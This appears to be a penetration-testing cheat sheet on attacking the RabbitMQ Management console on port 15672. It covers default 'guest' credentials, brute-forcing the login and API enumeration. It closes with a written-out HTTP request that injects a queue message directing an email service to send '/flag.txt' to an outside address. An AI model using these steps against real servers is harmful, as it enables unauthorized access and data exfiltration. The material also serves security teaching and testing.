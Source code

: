 # RabbitMQ Management - 15672

## RabbitMQ Information

In 5671,5672 - AMQP,  you can learn more about RabbitMQ. If the management plugin is active, the RabbitMQ Management web console may be found in this port.

## Enumeration

The default credentials for RabbitMQ are "guest":"guest". If they aren't working you may try to brute-force the login.

To manually start this module you can execute the following commands:

```bash
rabbitmq-plugins enable rabbitmq_management
service rabbitmq-server restart
```

If you have valid credentials you may find interesting the information of the API:

`http://domain:15672/api/connections`

It's possible to publish data inside a queue using the API of this service with a request like:

```http
POST /api/exchanges/%2F/amq.default/publish HTTP/1.1
Host: 172.32.46.72:15672
Authorization: Basic dGVzdDp0ZXN0
Accept: */*
Content-Type: application/json;charset=UTF-8
Content-Length: 267
​
{"vhost":"/","name":"amq.default","properties":{"delivery_mode":1,"headers":{}},"routing_key":"email","delivery_mode":"1","payload":"{\"to\":\"zevtnax+ppp@gmail.com\", \"attachments\": [{\"path\": \"/flag.txt\"}]}","headers":{},"props":{},"payload_encoding":"string"}
```

